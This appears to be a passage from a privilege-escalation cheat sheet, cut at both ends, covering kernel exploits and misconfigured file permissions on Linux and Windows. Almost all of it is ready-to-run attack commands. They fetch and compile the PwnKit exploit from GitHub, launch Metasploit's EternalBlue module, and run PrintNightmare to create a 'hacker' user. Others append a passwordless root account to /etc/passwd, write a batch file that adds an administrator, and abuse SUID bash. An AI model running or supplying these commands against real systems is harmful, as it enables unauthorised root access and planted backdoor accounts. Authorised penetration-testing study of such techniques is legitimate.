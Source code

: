   ```bash
  wget https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/pwnkit.c
  gcc pwnkit.c -o pwnkit
  ./pwnkit
  ```

### Windows

* **EternalBlue (MS17-010)**

  ```powershell
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS <target>
  exploit
  ```

* **PrintNightmare (CVE-2021-1675 / CVE-2021-34527)**

  ```powershell
  Import-Module .\CVE-2021-1675.ps1
  Invoke-Nightmare -NewUser "hacker" -NewPassword "Passw0rd!"
  ```

---

## 2. Misconfigured File Permissions

### A. World-Writable Files

**Linux**

```bash
find / -perm -2 -type f 2>/dev/null
```

Exploit `/etc/passwd`:

```bash
echo "hacker::0:0::/root:/bin/bash" >> /etc/passwd  
su hacker
```

**Windows**

```powershell
icacls "C:\Program Files\Vulnerable\*"
echo "net user hacker Passw0rd! /add & net localgroup administrators hacker /add" > exploit.bat
```

### B. SUID/SGID Binaries (Linux)

```bash
find / -perm -4000 -type f 2>/dev/null
./bash -p  # If /bin/bash has SUID
```

---
